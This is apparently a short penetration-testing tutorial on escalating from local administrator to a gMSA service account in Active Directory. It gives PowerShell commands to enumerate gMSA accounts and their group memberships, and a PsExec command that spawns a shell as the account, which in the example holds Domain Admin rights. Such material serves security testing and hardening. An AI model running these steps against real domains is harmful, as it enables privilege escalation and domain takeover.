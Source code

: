# Elevate from Local admin to gMSA account
Some of the steps in this tutorial used [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
![](../img/gmsa_01.jpg?raw=true)



* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt
* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```

In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

 
